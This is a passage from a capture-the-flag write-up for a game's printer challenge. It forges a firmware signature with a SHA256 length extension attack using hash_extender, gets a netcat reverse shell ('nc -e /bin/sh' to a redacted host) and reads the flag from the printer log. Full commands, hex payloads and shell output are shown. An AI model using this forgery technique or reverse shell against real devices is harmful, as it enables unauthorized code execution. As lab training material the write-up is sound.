WtvsMeDtQftcWTtjfb8YO332fOItTdtbnhm7FtQ2NXejPpd7aKdj8HaW+z7k7WHXDeL+1Grva+ftW9FZ1zt99v3O2vfZt/nrH2763zyo0/Z+7JZ+47NRBHG3obCrvadKOZqb6+yWXkbtwzeTp5zPhzP81w8RWr/GWffQ+0Vzv6Q2cZmf+A+HzbPq+OTpfXEuPFaNP2r4/xijf7Xuq4LZtlWpO7hS9z9XzWP91f189dmPdXj+Bvqz/fzT+axel7dMuupHt+fCiQO1fdFg0DyIUR0icYH4rlDcM97yJr26nlyWHDPq0gIpMm2qvnTSvx91fdRskY9T9J6+HYXavTze9je6muzn58gLxC74z6Fx8oFGocztD9T1P4rRNrdiXq5ep6i/vB8gP+lviZY/vz1vk79u2n9kDuySvvJ+1+pcV03hRp5JzMFvaiXZmejM2gzg0TWs/IMSQ0hiShqXp7L5KeVjKzq+UJRVkoLaCafnc9ouqZGHzp8qNvdiWSvpGWlUFAWZS2nFxbRbEHJarJaymYXMcWhydhTZ13p/7hxt2R5+ET8WEJOjA2RBBbWV0Xy0ONj8WOjg2yJme+CTSNjk3JCojVIQyeQPJI8PhBPyseHhx9LTMgT8YFkQob8mpliyez1x2bUkPyc/n4m/0ZTFV2pTtLhvGTiZfeMTcuR1WJeTik5laTsjB7HBWo6J5eKmursG7lArE8Xi7QaMxVIlnH/IDw183vYjCK2ayhaXMzqyjRGvWBhCs7SOVzTPIrm8roWjQ+MRnRljmpzuVJ0upTOqJG0ikwtpRRTKKou5nB9FuoFq+RrWqGYzucYRcZlBS2jEEd6Np/RSZP4MslpdC6PT3RtAR/NcYkW8maoo1qKzp+UWtjULKo1BSwGnOMWlGx6BpEarUasenAoURTP5iyedm63x38qZJ1NnoWwDKqVJwnCf3P4LGJzkvi8wDDnzy9vDnJ8WI8B7r0Hn3xXuY3XusCHdRsg8GH55PxmQ2QMWWt/4MP6DvAitUO+F/BhnX4SsbmAsA4EhPcLED5+p5G1lgc+rBcBRa7/Pg6fRNa7AeiwrgQM1+g/yDlkxRT4sP4EvMS1z1//05Q/QHVYpwKCH1F3uPCfQ86cSFSVNwvvUSD8+Jc5Pqx7beT8+fTcFzg+rI8B+XgFOXyZ48PfScCnuAHnl9kXOD6sEwAbOX/++l9B7P3L5w/zf0N5/qscv1Z+bi3+6xwf1vmAQe76+Xi+iaw5Dq9Pdr5uxN2fj//b+Nfi4MN6s/IJ+X9GbM6mnQ9N+ZAHXc/xYBzJOlpw8OE95FqXhZ33aP8mx7fXs/R1N3wP/gccH9aN4RjbT54P8iG1AR/WZ7GYuz///NqgNv7tHPi1/n440S2fdRwqrN+sJ4Kqnx+Njr4z/B5K5yrn+99ag3+y18IGjsDz/w1QSwECHgMUAAAACABFpZBTFqCo8GoJAADgQAAADAAYAAAAAAAAAAAA7YEAAAAAZmlybXdhcmUuYmluVVQFAAOipLthdXgLAAEEAAAAAAQAAAAAUEsFBgAAAAABAAEAUgAAALAJAAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAABRQFBLAwQUAAAACACKpStUu0p5ZSkAAABGAAAAJAAcAGR1bW15X3BheWxvYWRfd2l0aF9oYXNoX2V4dGVuc2lvbi5zaFVUCQADE97dYT/e3WF1eAsAAQToAwAABOgDAABTVtRPyszTT0oszuBKTc7IV1AyNDI2MTUzt7A0gLAszGEshBgqS4kLAFBLAQIeAxQAAAAIAIqlK1S7SnllKQAAAEYAAAAkABgAAAAAAAEAAACkgQAAAABkdW1teV9wYXlsb2FkX3dpdGhfaGFzaF9leHRlbnNpb24uc2hVVAUAAxPe3WF1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBqAAAAhwAAAAAA
```
Reconstructed the JSON for the upload:
```json
{"firmware":"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","signature":"5156082e41eda2f251d4af0775b0ca8d4b3b268f671e840a1330ad15efc60949","secret_length":16,"algorithm":"SHA256"}
```
And still failed on updating the firmware:
```bash
Firmware update failed:

Failed to parse the ZIP file: Could not extract firmware.bin from the archive:

$ unzip '/tmp/20220111-1-ho6pi8' 'firmware.bin' -d '/tmp/20220111-1-ho6pi8-out' 2>&1 && /tmp/20220111-1-ho6pi8-out/firmware.bin

Archive:  /tmp/20220111-1-ho6pi8
warning [/tmp/20220111-1-ho6pi8]:  2608 extra bytes at beginning or within zipfile
  (attempting to process anyway)
caution: filename not matched:  firmware.bin
```

#### 7.2.3. Renaming the payload 
This last error made me think that also the additional payload has to be named `firmware.bin`, so I renamed the payload file and re-executed above steps:
```bash
┌──(thedead㉿thinkali)-[~/Desktop/repos/hash_extender]
└─$ ./hash_extender --data $(xxd -p -c 10000 ../orig_firmware.zip) --data-format=hex --append $(xxd -p -c 10000 ../firmware.zip) --append-format=hex --secret 16 --signature "2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97" --format sha256 --out-data-format=hex
Type: sha256
Secret length: 16
New signature: 79f3e3393253d04c82503559543f5918a278b6519e54d09436d391fef1f71a8e
New string: 504b030414000000080045a5905316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc721c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe94524cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f208d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d3663ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f809c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1ddefb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3add7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2fe2f04f695f3d2136275d85f3b3238f88570e790369d5672e1dee8e1682cd2b3df3ab9675b7e1c8d8b2e9b63fd78b4565ded7e74c3d55e67cf23d61eb0e70f6bafb7e7196b6fb0c783b507ed7164ed8df6fc60edf7d9f388b5376d6e7866ec5b50d8d5de8cfa5deda29d8fc1da5becfb93b5875c378bfb51abbdaf9fb56f45675cedf7dbf73b6bdf66dfe7ac7dbbeb7cf2a34fd9fbb259fb8ecd4411c6de86c2aef69d28e66a6fafb259791bb70cde4e9e733e1ccff35c3c456aff1967df43ed15cefe90d9c6667fe03e1f36cfabe393a5f5c4b8f15a34fdabe3fc628dfed7baae0b66d956a4eee14bdcfd5f358ff757f5f3d7663dd5e3f81beacff7f34fe6b17a5edd32eba91edf9f0a240ed5f7458340f221447489c607e2b94370cf7bc89af6ea79725870cfab4808a4c9b6aaf9d34afc7dd5f751b2463d4fd27af876176af4f37bd8deea6bb39f9f202f10bbe33e85c7ca051a8733b43f53d4fe2b44dadd897ab97a9ea2fef07c80ffa5be2658fefcf5be4efdbb69fd903bb24afbc9fb5fa9715d37851a79273305bda8976667a33368338344d6b3f20c490d2189286a5e9ecbe4a7958caceaf94251564a0b68269f9dcf68baa6461f3a7ca8dbdd8964afa465a5505016652da71716d16c41c96ab25aca661731c5a1c9d853675de9ffb871b76479f844fc58424e8c0d910416d65745f2d0e363f163a3836c8999ef824d2363937242a235484327903c923c3e104fcac787871f4b4cc813f181644286fc9a9962c9ecf5c766d490fc9cfe7e26ff4653155da94ed2e1bc64e265f78c4dcb91d5625e4e293995a4ec8c1ec7056a3a27978a9aeaec1bb940ac4f178bb41a3315489671ff203c35f37bd88c22b66b285a5ccceaca3446bd60610aced2395cd33c8ae6f2ba168d0f8c4674658e6a73b95274ba94cea891b48a4c2da5145328aa2ee6707d16ea05abe46b5aa198cee71845c665052da310477a369fd14993f832c969742e8f4f746d011fcd718916f266a8a35a8ace9f945ad8d42caa35052c069ce316946c7a06911aad46ac7a70285114cfe62c9e766eb7c77f2a649d4d9e85b00caa952709c27f73f82c627392f8bcc030e7cf2f6f0e727c588f01eebd079f7c57b98dd7bac087751b20f061f9e4fc6643640c596b7fe0c3fa0ef022b543be17f0619d7e12b1b980b00e0484f70b103e7ea791b596073eac170145aeff3e0e9f44d6bb01e8b0ae040cd7e83fc83964c514f8b0fe04bcc4b5cf5fffd3943f407558a702821f5177b8f09f43ce9c485495370bef5120fcf897393eac7b6de4fcf9f4dc17383eac8f01f97805397c99e3c3df49c0a7b801e797d917383eac13001b397ffefa5f41ecfdcbe70ff37f4379feab1cbf567e6e2dfeeb1c1fd6f98041eefaf978be89ac390eaf4f76be6ec4dd9f8fffdbf8d7e2e0c37ab3f209f97f466ccea69d0f4df990075dcff1601cc93a5a70f0e13de45a97859df768ff26c7b7d7b3f475377c0ffe071c1fd68de118db4f9e0ff221b5011fd667b198bb3ffffcdaa036feed1cf8b5fe7e38d12d9f751c2aacdfac2782aa9f1f8d8ebe33fc1e4ae72ae7fbdf5a837fb2d7c2068ec0f3ff0d504b01021e0314000000080045a5905316a0a8f06a090000e04000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003a2a4bb6175780b000104000000000400000000504b0506000000000100010052000000b00900000000800000000000000000000000000000000000000000005140504b0304140000000800fdbe2b54bb4a796529000000460000000c001c006669726d776172652e62696e5554090003fd0ade61fd0ade6175780b000104e803000004e80300005356d44fcaccd34f4a2ccee04a4dcec8575032343236313533b7b03480b02ccc612c84182a4b890b00504b01021e03140000000800fdbe2b54bb4a796529000000460000000c0018000000000001000000a481000000006669726d776172652e62696e5554050003fd0ade6175780b000104e803000004e8030000504b05060000000001000100520000006f0000000000
```

#### 7.2.4. Obtaining a reverse shell
Finally being able to execute a payload I went for a pretty common `netcat` reverse shell:
```bash
##!/bin/bash
nc -e /bin/sh RE.DA.CT.ED 1234
```
Re-executed the hash exension attack:
```bash
┌──(thedead㉿thinkali)-[~/Desktop/repos/hash_extender]
└─$ ./hash_extender --data $(xxd -p -c 10000 ../orig_firmware.zip) --data-format=hex --append $(xxd -p -c 10000 ../firmware.zip) --append-format=hex --secret 16 --signature "2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97" --format sha256 --out-data-format=hex
Type: sha256
Secret length: 16
New signature: b283ee91e444139788e8a3a9747ff71c5fcd1c2c39a2fdbcfab661ba54bcdf66
New string: 504b030414000000080045a5905316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbdf3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a22419109a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc721c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe94524cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f208d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d3663ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f809c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1ddefb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3add7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2fe2f04f695f3d2136275d85f3b3238f88570e790369d5672e1dee8e1682cd2b3df3ab9675b7e1c8d8b2e9b63fd78b4565ded7e74c3d55e67cf23d61eb0e70f6bafb7e7196b6fb0c783b507ed7164ed8df6fc60edf7d9f388b5376d6e7866ec5b50d8d5de8cfa5deda29d8fc1da5becfb93b5875c378bfb51abbdaf9fb56f45675cedf7dbf73b6bdf66dfe7ac7dbbeb7cf2a34fd9fbb259fb8ecd4411c6de86c2aef69d28e66a6fafb259791bb70cde4e9e733e1ccff35c3c456aff1967df43ed15cefe90d9c6667fe03e1f36cfabe393a5f5c4b8f15a34fdabe3fc628dfed7baae0b66d956a4eee14bdcfd5f358ff757f5f3d7663dd5e3f81beacff7f34fe6b17a5edd32eba91edf9f0a240ed5f7458340f221447489c607e2b94370cf7bc89af6ea79725870cfab4808a4c9b6aaf9d34afc7dd5f751b2463d4fd27af876176af4f37bd8deea6bb39f9f202f10bbe33e85c7ca051a8733b43f53d4fe2b44dadd897ab97a9ea2fef07c80ffa5be2658fefcf5be4efdbb69fd903bb24afbc9fb5fa9715d37851a79273305bda8976667a33368338344d6b3f20c490d2189286a5e9ecbe4a7958caceaf94251564a0b68269f9dcf68baa6461f3a7ca8dbdd8964afa465a5505016652da71716d16c41c96ab25aca661731c5a1c9d853675de9ffb871b76479f844fc58424e8c0d910416d65745f2d0e363f163a3836c8999ef824d2363937242a235484327903c923c3e104fcac787871f4b4cc813f181644286fc9a9962c9ecf5c766d490fc9cfe7e26ff4653155da94ed2e1bc64e265f78c4dcb91d5625e4e293995a4ec8c1ec7056a3a27978a9aeaec1bb940ac4f178bb41a3315489671ff203c35f37bd88c22b66b285a5ccceaca3446bd60610aced2395cd33c8ae6f2ba168d0f8c4674658e6a73b95274ba94cea891b48a4c2da5145328aa2ee6707d16ea05abe46b5aa198cee71845c665052da310477a369fd14993f832c969742e8f4f746d011fcd718916f266a8a35a8ace9f945ad8d42caa35052c069ce316946c7a06911aad46ac7a70285114cfe62c9e766eb7c77f2a649d4d9e85b00caa952709c27f73f82c627392f8bcc030e7cf2f6f0e727c588f01eebd079f7c57b98dd7bac087751b20f061f9e4fc6643640c596b7fe0c3fa0ef022b543be17f0619d7e12b1b980b00e0484f70b103e7ea791b596073eac170145aeff3e0e9f44d6bb01e8b0ae040cd7e83fc83964c514f8b0fe04bcc4b5cf5fffd3943f407558a702821f5177b8f09f43ce9c485495370bef5120fcf897393eac7b6de4fcf9f4dc17383eac8f01f97805397c99e3c3df49c0a7b801e797d917383eac13001b397ffefa5f41ecfdcbe70ff37f4379feab1cbf567e6e2dfeeb1c1fd6f98041eefaf978be89ac390eaf4f76be6ec4dd9f8fffdbf8d7e2e0c37ab3f209f97f466ccea69d0f4df990075dcff1601cc93a5a70f0e13de45a97859df768ff26c7b7d7b3f475377c0ffe071c1fd68de118db4f9e0ff221b5011fd667b198bb3ffffcdaa036feed1cf8b5fe7e38d12d9f751c2aacdfac2782aa9f1f8d8ebe33fc1e4ae72ae7fbdf5a837fb2d7c2068ec0f3ff0d504b01021e0314000000080045a5905316a0a8f06a090000e04000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003a2a4bb6175780b000104000000000400000000504b0506000000000100010052000000b00900000000800000000000000000000000000000000000000000005140504b030414000000080043032c54dab98c6b290000002b0000000c001c006669726d776172652e62696e55540900030e12de610e12de6175780b000104e803000004e80300005356d44fcaccd34f4a2ccee0ca4b56d04d5500f38b3314825cf55c1cf59c43f45c5d140c8d8c4db800504b01021e0314000000080043032c54dab98c6b290000002b0000000c0018000000000001000000a481000000006669726d776172652e62696e55540500030e12de6175780b000104e803000004e8030000504b05060000000001000100520000006f0000000000
```
Finally that allowed to obtain a reverse shell and run commands on the printer machine:
```bash
root@debian:~# nc -v -l -p 1234
listening on [any] 1234 ...
connect to [RE.DA.CT.ED] from 168.204.66.34.bc.googleusercontent.com [34.66.204.168] 42922

whoami
app

pwd
/app

ls -la
total 28
drwxr-xr-x 1 root root 4096 Dec 16 06:12 .
drwxr-xr-x 1 root root 4096 Dec 16 06:13 ..
-rw-r--r-- 1 root root   39 Dec 16 05:45 Gemfile
-rw-r--r-- 1 root root 1980 Dec 16 05:45 Gemfile.lock
-rw-r--r-- 1 root root  840 Dec 16 05:45 config.ru
drwxr-xr-x 1 root root 4096 Dec 16 05:45 lib
-rw-r--r-- 1 root root 1173 Dec 16 05:45 printer.gemspec

ls -la /var/spool
total 536
drwxr-xr-x 1 root root   4096 Dec 16 06:12 .
drwxr-xr-x 1 root root   4096 Dec 16 06:12 ..
-r--r--r-- 1 root root 532488 Dec 16 05:45 birdknob.png
lrwxrwxrwx 1 root root      7 Mar 27  2020 mail -> ../mail
-r--r--r-- 1 root root    349 Dec 16 05:45 printer.log
```
#### 7.2.5. The flag
Being in the reverse shell it is possible to obtain the target file:
```bash
root@debian:~# nc -v -l -p 1234
listening on [any] 1234 ...
connect to [RE.DA.CT.ED] from 168.204.66.34.bc.googleusercontent.com [34.66.204.168] 42922

cat /var/spool/printer.log
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```
And the answer is: `Troll_Pay_Chart.xlsx`

### 7.3. Kudos!
#### 7.3.0. HexCalibur, @nonickid
Thanks to @nonickid for giving me a nudge toward the right parameters for `hash_extender`. 

### 7.4. The app
I downloaded all app files that are available in the folder "[05 - The app](05%20-%20The%20app)"

### 7.5. Why do I even...?
I also downloaded a random image by the name of "birdknob":  


---
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
